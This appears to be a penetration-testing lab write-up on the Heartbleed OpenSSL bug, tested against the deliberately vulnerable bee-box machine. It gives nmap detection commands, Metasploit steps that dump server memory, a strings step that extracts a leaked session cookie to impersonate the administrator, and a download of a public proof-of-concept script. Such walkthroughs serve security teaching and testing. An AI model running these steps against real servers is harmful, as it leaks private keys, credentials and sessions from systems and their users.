





Heartbleed (OpenSSL)
Prerequisite:
• Web Application Apache,
Nginx or other services that use an old
version of OpenSSL
• OpenSSL 1.0.1 through 1.0.1f (inclusive) are vulnerable
Bug was introduced to
OpenSSL in December 2011 and has been out in the wild since OpenSSL release 1.0.1 on 14th of March 2012. OpenSSL
1.0.1g released on 7th of April 2014 fixes the bug.
What is the
CVE-2014-0160?CVE-2014-0160 is the official reference to this bug. CVE (Common Vulnerabilities and
Exposures) is the Standard for Information Security Vulnerability Names maintained by
MITRE.
Why it is called the Heartbleed Bug?Bug
is in the OpenSSL's implementation of the TLS/DTLS (
transport layer
security protocols) heartbeat extension (RFC6520). When it is exploited it leads to the leak of memory
contents from the server to the client and from the client to the server.
Heartbleed allows a remote user to
download 64KB chunks of RAM. The attacker may make repeated requests
to attempt to access different
chunks
In addition to the “dumping” of arbitrary encrypted data from a server, which could include anything
from credentials for the application and any other sensitive data that might reside in memory at any given moment,
it also allowed for the dumping of the Private Key responsible for securing that data over SSL.
0. Do a
full scan of the target, Check the port of the open source web servers(in this case nginx)
root@kali:/# nmap -sV -A 192.168.147.136
 Old versions of
Apache and
nginx can be
vulnerable to the heartbleed bug, if they use an old version of OpenSSL
1. Test if the target is vulnerable to
heartbleed
◇ nmap ssl-heartbleed.nse(https://nmap.org/nsedoc/scripts/ssl-heartbleed.html)
root@kali:/# nmap -p443--script ssl-heartbleed 192.168.147.136
 2. Exploit
◇
Metasploit
root@kali:/# msfconsole
msf> use auxiliary/scanner/ssl/openssl_heartbleed
msf> show actions
msf> set action DUMP #
msf> show options
msf> set rhosts <targetIp>
msf> set rport 8443
msf> exploit
 the results of the
“leaked” data to a file in your ~/.msf4/loot directory as a .bin file
root@kali:/# strings /root/.msf4/loot/20210514140513_default_192.168.147.136_openssl.heartble_137778.bin
 The PHPSESSID is been
leaked, with it we can impersonate the WebApplication administrator user
◇ Sensepost heartbleed-poc (
https://github.com/sensepost/heartbleed-poc/blob/master/heartbleed-poc.py):
We can run it multiple times
root@kali:/# wget https://raw.githubusercontent.com/sensepost/heartbleed-poc/master/heartbleed-poc.py
root@kali:/# python heartbleed-poc.py [server] | less
Bibliography:
•
https://heartbleed.com/• Test machine used with Heartbleed vulnerability:
https://sourceforge.net/projects/bwapp/files/bee-box/
1) To use it we have to navigate via browser on the webapplication ip.
2) Login with user:bee password
bug
3) Choose your bug → Heartbleed vulnerability
4) As the message say, navigate another time via
browser on the webapplicationIP but this time on port 8443 (https://<targetIP>:8443)
•
https://www.youtube.com/watch?v=SgJm0C6jzbo explanation on
how to use the bee-box